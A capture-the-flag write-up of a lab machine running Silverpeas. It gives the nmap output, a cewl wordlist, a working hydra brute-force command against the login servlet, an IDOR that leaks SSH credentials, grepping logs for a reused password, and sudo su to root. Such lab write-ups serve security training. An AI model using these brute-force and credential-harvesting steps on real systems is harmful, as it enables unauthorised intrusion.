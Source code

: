 ### Description
Think you've got what it takes to outsmart the Hack Smarter Security team? They claim to be unbeatable, and now it's your chance to prove them wrong. Dive into their web server, find the hidden flags, and show the world your elite hacking skills. Good luck, and may the best hacker win!  

But beware, this won't be a walk in the digital park. Hack Smarter Security has fortified the server against common attacks and their password policy requires passwords that have not been breached (they check it against the rockyou.txt wordlist - that's how 'cool' they are). The hacking gauntlet has been thrown, and it's time to elevate your game. Remember, only the most ingenious will rise to the top. 

May your code be swift, your exploits flawless, and victory yours!

### Enumeration 
#### Nmap Scan
```bash
Nmap scan report for <IP>
Host is up (0.020s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 c3:25:de:b4:1e:f0:9f:22:e5:f7:9b:36:27:96:93:66 (ECDSA)
|_  256 ff:22:57:2e:99:07:ee:ec:14:90:7d:ac:7c:b4:30:53 (ED25519)
80/tcp   open  http       nginx 1.18.0 (Ubuntu)
|_http-title: Hack Smarter Security
|_http-server-header: nginx/1.18.0 (Ubuntu)
8080/tcp open  http-proxy
|_http-title: Error
| fingerprint-strings: 
|   FourOhFourRequest, GetRequest, HTTPOptions: 
|     HTTP/1.1 404 Not Found
|     Connection: close
|     Content-Length: 74
|     Content-Type: text/html
|     Date: Mon, 25 Aug 2025 22:23:28 GMT
|     <html><head><title>Error</title></head><body>404 - Not Found</body></html>
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SMBProgNeg, SSLSessionReq, Socks5, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Length: 0
|_    Connection: close
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.95%I=7%D=8/25%Time=68ACE261%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,C9,"HTTP/1\.1\x20404\x20Not\x20Found\r\nConnection:\x20close\r
SF:\nContent-Length:\x2074\r\nContent-Type:\x20text/html\r\nDate:\x20Mon,\
SF:x2025\x20Aug\x202025\x2022:23:28\x20GMT\r\n\r\n<html><head><title>Error
SF:</title></head><body>404\x20-\x20Not\x20Found</body></html>")%r(HTTPOpt
SF:ions,C9,"HTTP/1\.1\x20404\x20Not\x20Found\r\nConnection:\x20close\r\nCo
SF:ntent-Length:\x2074\r\nContent-Type:\x20text/html\r\nDate:\x20Mon,\x202
SF:5\x20Aug\x202025\x2022:23:28\x20GMT\r\n\r\n<html><head><title>Error</ti
SF:tle></head><body>404\x20-\x20Not\x20Found</body></html>")%r(RTSPRequest
SF:,42,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Length:\x200\r\nConn
SF:ection:\x20close\r\n\r\n")%r(FourOhFourRequest,C9,"HTTP/1\.1\x20404\x20
SF:Not\x20Found\r\nConnection:\x20close\r\nContent-Length:\x2074\r\nConten
SF:t-Type:\x20text/html\r\nDate:\x20Mon,\x2025\x20Aug\x202025\x2022:23:28\
SF:x20GMT\r\n\r\n<html><head><title>Error</title></head><body>404\x20-\x20
SF:Not\x20Found</body></html>")%r(Socks5,42,"HTTP/1\.1\x20400\x20Bad\x20Re
SF:quest\r\nContent-Length:\x200\r\nConnection:\x20close\r\n\r\n")%r(Gener
SF:icLines,42,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Length:\x200\
SF:r\nConnection:\x20close\r\n\r\n")%r(Help,42,"HTTP/1\.1\x20400\x20Bad\x2
SF:0Request\r\nContent-Length:\x200\r\nConnection:\x20close\r\n\r\n")%r(SS
SF:LSessionReq,42,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Length:\x
SF:200\r\nConnection:\x20close\r\n\r\n")%r(TerminalServerCookie,42,"HTTP/1
SF:\.1\x20400\x20Bad\x20Request\r\nContent-Length:\x200\r\nConnection:\x20
SF:close\r\n\r\n")%r(TLSSessionReq,42,"HTTP/1\.1\x20400\x20Bad\x20Request\
SF:r\nContent-Length:\x200\r\nConnection:\x20close\r\n\r\n")%r(Kerberos,42
SF:,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Length:\x200\r\nConnect
SF:ion:\x20close\r\n\r\n")%r(SMBProgNeg,42,"HTTP/1\.1\x20400\x20Bad\x20Req
SF:uest\r\nContent-Length:\x200\r\nConnection:\x20close\r\n\r\n")%r(LPDStr
SF:ing,42,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Length:\x200\r\nC
SF:onnection:\x20close\r\n\r\n")%r(LDAPSearchReq,42,"HTTP/1\.1\x20400\x20B
SF:ad\x20Request\r\nContent-Length:\x200\r\nConnection:\x20close\r\n\r\n");
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   19.58 ms 10.14.0.1
2   19.71 ms <IP>

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Aug 25 18:24:45 2025 -- 1 IP address (1 host up) scanned in 104.07 seconds
```

Visit the website and under the `Contact` tab, there is some info about the username `scr1ptkiddy` and the how to contact the manager `Silverpeas`.
![[contact.png]]

I performed directory enumeration but It didn't give me anything. I didn't know what `silverpeas` was, so I searched for `silverpeas` and found a website where I saw `localhost:8080/silverpeas`. So, I tried that in the browser 
```
http://<IP>:8080/silverpeas
```

### Initial Access
I received back a login page `http://<IP>:8080/silverpeas/defaultLogin.jsp`. 
![[login-page.png]]

In the description, it says that the `Hack Smarter Security Team` have tested their passwords against ***rockyou.txt*** and it could not be breached. So, we can try a different technique and create our own passwords rather then using the dictionary provided in kali.

#### Create a Dictionary of passwords using `Cewl`
```bash
cewl http://<IP> -w passwordlist.txt
```

#### Brute Force the Login Page with Hydra
**Failed attempts**
```bash
hydra -l scr1ptkiddy -P passwordlist.txt <IP> -s 8080 http-form-post '/silverpeas/defaultLogin.jsp:username=scr1ptkiddy&password=^PASS^:F=Login or password incorrect'
```

It didn't work due to some issues:
- Not `defaultLogin.jsp` but `AuthenticationServlet`. Found it under `Network` tab with `POST` method.
- Not `username=scr1ptkiddy&password=^PASS^` instead `Login=scr1ptkiddy&Password=^PASS^&DomainId=0`. Found it using `Burpsuite`.
![[burp.png]]

**Successful attempt**
```bash
hydra -l scr1ptkiddy -P passwordlist <IP> -s 8080 http-form-post '/silverpeas/AuthenticationServlet:Login=scr1ptkiddy&Password=^PASS^&DomainId=0:F=Login or password incorrect' -t 32
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-08-26 17:36:20
[DATA] max 32 tasks per 1 server, overall 32 tasks, 345 login tries (l:1/p:345), ~11 tries per task
[DATA] attacking http-post-form://<IP>:8080/silverpeas/AuthenticationServlet:Login=scr1ptkiddy&Password=^PASS^&DomainId=0:F=Login or password incorrect
[8080][http-post-form] host: <IP>   login: scr1ptkiddy   password: adipiscing
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-08-26 17:36:34
```

I logged in using the credentials and landed in `scr1ptkiddy` home page. I started looking around the website and under **Personal workspace** there's **My notifications** tab. There's a notification inside, and when I opened it I was redirected to another link with an `ID=5`.
![[notification.png]]

This reminded of the `Insecure Direct Object Reference (IDOR)` attack. I could not change the ID there, so I copied the link and started changing from 0 and found ssh login details at`ID=6`.
![[ssh_login_creds.png]]

#### First Flag
```bash
ssh tim@<IP>
cat user.txt
```

### Privilege Escalation
I checked the group and found that the user `tim` is a part of `adm` group.
```bash
id

groups
tim adm
```

I searched online for the `adm` group and found out that it is a ***default system group*** and ***can read system logs***, usually in `/var/log.`

#### Read Logs
```bash
grep -ri 'password' /var/log/* 2>/dev/null
/var/log/auth.log:Aug 27 17:42:22 ip-10-10-132-84 sshd[2306]: Accepted password for tim from 10.14.101.2 port 47108 ssh2
/var/log/auth.log.1:Jul 21 20:10:26 ip-10-10-119-245 passwd[654]: password for 'ubuntu' changed by 'root'
/var/log/auth.log.1:Aug 27 17:38:02 ip-10-10-132-84 passwd[644]: password for 'ubuntu' changed by 'root'
/var/log/auth.log.2:Dec 12 19:34:46 silver-platter passwd[1576]: pam_unix(passwd:chauthtok): password changed for tim
/var/log/auth.log.2:Dec 12 19:39:15 silver-platter sudo:    tyler : 3 incorrect password attempts ; TTY=tty1 ; PWD=/home/tyler ; USER=root ; COMMAND=/usr/bin/apt install nginx
/var/log/auth.log.2:Dec 13 15:39:07 silver-platter usermod[1597]: change user 'dnsmasq' password
/var/log/auth.log.2:Dec 13 15:39:07 silver-platter chage[1604]: changed password expiry for dnsmasq
/var/log/auth.log.2:Dec 13 15:40:33 silver-platter sudo:    tyler : TTY=tty1 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/docker run --name postgresql -d -e POSTGRES_PASSWORD=_Zd_zx7N823/ -v postgresql-data:/var/lib/postgresql/data postgres:12.3
/var/log/auth.log.2:Dec 13 15:44:30 silver-platter sudo:    tyler : TTY=tty1 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/docker run --name silverpeas -p 8080:8000 -d -e DB_NAME=Silverpeas -e DB_USER=silverpeas -e DB_PASSWORD=_Zd_zx7N823/ -v silverpeas-log:/opt/silverpeas/log -v silverpeas-data:/opt/silvepeas/data --link postgresql:database sivlerpeas:silverpeas-6.3.1
/var/log/auth.log.2:Dec 13 15:45:21 silver-platter sudo:    tyler : TTY=tty1 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/docker run --name silverpeas -p 8080:8000 -d -e DB_NAME=Silverpeas -e DB_USER=silverpeas -e DB_PASSWORD=_Zd_zx7N823/ -v silverpeas-log:/opt/silverpeas/log -v silverpeas-data:/opt/silvepeas/data --link postgresql:database silverpeas:silverpeas-6.3.1
/var/log/auth.log.2:Dec 13 15:45:57 silver-platter sudo:    tyler : TTY=tty1 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/docker run --name silverpeas -p 8080:8000 -d -e DB_NAME=Silverpeas -e DB_USER=silverpeas -e DB_PASSWORD=_Zd_zx7N823/ -v silverpeas-log:/opt/silverpeas/log -v silverpeas-data:/opt/silvepeas/data --link postgresql:database silverpeas:6.3.1
```

We can see the password `_Zd_zx7N823/` and tried this against the `tyler` user.

```bash
su tyler
```

**Checked if the User is in the Sudoers list**
```bash
sudo -l
[sudo] password for tyler: 
Matching Defaults entries for tyler on ip-10-10-132-84:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User tyler may run the following commands on ip-10-10-132-84:
    (ALL : ALL) ALL
```

The user `tyler` is in `sudoers` list and perform all commands as root.

**Checked SUID**
```bash
find / -perm -4000 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/fusermount3
/usr/bin/passwd
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/su
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/umount
/usr/libexec/polkit-agent-helper-1
```

`su` has SUID bit enabled, so we can use this to escalate to root.

```bash
sudo su 
cat root.txt
```
